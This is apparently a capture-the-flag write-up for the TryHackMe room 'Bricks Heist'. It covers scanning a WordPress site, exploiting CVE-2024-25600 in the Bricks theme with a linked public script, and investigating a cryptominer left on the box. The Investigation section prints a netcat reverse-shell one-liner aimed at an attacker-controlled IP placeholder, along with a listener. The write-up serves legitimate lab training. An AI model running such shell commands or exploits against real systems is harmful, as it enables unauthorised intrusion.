## Overview
This room, `TryHack3M: Bricks Heist`, starts as a straightforward WordPress exploitation box but turns into something more interesting: once inside, we find the machine already compromised by a cryptomining operation. The challenge splits into two halves — first exploit a vulnerable Bricks theme plugin to get a shell, then switch hats and investigate the indicators of compromise left behind by whoever got there before us, tracing a wallet address back to a known threat group.
## Enumeration
we start with looking for opening ports using `nmap`

```bash
sudo nmap -sS -sV -p- -T4 MACHINE_IP
```

and this what we got
{: width="700"}

we observe that there is a http server in the port 80 and 443 , so we add MACHINE_IP with the domain `bricks.thm` in `/etc/hosts` then try access it and see
what we have, okay the site it is just an image of wall of bricks so I try to go deep in enumeration and start path discovery using `gobuster` but the problem is that the room crashed after starting fuzzing
{: width="700"}
so I thought that the problem is with the delay or the number of thread in use so I try to reduce the number of threads and increase the delay
{: width="700"}
{: width="700"}
as you can see it still crashed so I ignore this part and start looking from other side and string with about the technology that run that app itself 
primary I used `whatweb`
{: width="700"}
and we got a valuable information that the app is made using `WordPress`
version `6.5` 
> You can go from here and looking for variabilities for this version.
{: .prompt-tip } 

I used `wpscan` for do more scan in wordpress app
{: width="700"}
we can see here that this app use `bricks 1.9.5` theme which might be vulnerable 
. to make sure I google it 
{: width="700"}
as you can see it is vulnerable to `CVE-2024-25600`

## Exploit
for exploit it we need find a code for exploitation and after google it I find this repo [CVE-2024-25600](https://github.com/Chocapikk/CVE-2024-25600)

> Be careful with code you find on the internet. Some of it may be harmful, so always check the code before running it.
{: .prompt-danger }

I executed the script and I got a shell on the app
{: width="700"}

and yeah this the the answer of the first question

## Investigation  
Now we need to investigate the indicators of compromise . we should first start enhance our shell by getting new one using reverse shell technique 
### Enhance Shell
```bash
busybox nc YOU_IP 8888 -e bash
```
we execute that command in shell that we got then run listener in our machine

```bash
nc -nlvp 8888
``` 
and after we got reverse shell we should enhance it so we can use `Ctl + C`
without crashing the shell, so in the reverse shell we execute these commands

```python
python3 -c "import pyt;pty.spawn('/bin/bash')"
# the click on Ctl + z
stty raw -echo; fg
# click enter
```
and let's start answer the questions

### Service Name
the third question is  
*What is the service name affiliated with the suspicious process?* 
we run this command to see
```bash
systemctl list-units --type=service --state=running
```
{: width="700"}

and yeah this the service name

### Process Name
the second question is  
*What is the name of the suspicious process?*
We can see which service is associated with the previous service name by using the command
```bash
systemctl status SERVICE_NAME
```
and yeah we find it
{: width="700"}

### Log file name
the fourth question is  
*What is the log file name of the miner instance?*
to find we should to the folder of the the previous process and open each file until we find a file the contain a logs and this the file

{: width="700"}

### Wallet address
the fifth question is  
*What is the wallet address of the miner instance?*
and the previous log file we found an id we talk this id and we use CyberChef with  
`FROM HEX -> FROM base64 -> FROM base64`
and then we got tow Wallet address combined both halves start with `bc1q`, which is the standard prefix for Bitcoin bech32 (SegWit) addresses
{: width="700"}

### Group Name 
the last question is   
*The wallet address used has been involved in transactions between wallets belonging to which threat group?*
I go to [blockchain](https://www.blockchain.com/) then I write the wallet address that we find before in the search bar and see the transaction history and looking for that contain bigger number and we find this in the image below with that other wallet address
{: width="700"}
then we google this wallet address to see if i associated to famous group and yeah ! we find it 
{: width="700"}

## Conclusion
This room was a good mix of offensive and defensive skills in one box. The initial foothold was a fairly standard CVE exploitation against an outdated WordPress theme, but the real value was in the second half — digging through a live system to identify a malicious service, pull apart its logs, decode an obfuscated wallet address with CyberChef, and trace it back to a real-world threat group through blockchain analysis. It's a good reminder that gaining access is often the easy part; understanding what's already running on a compromised system is just as important a skill.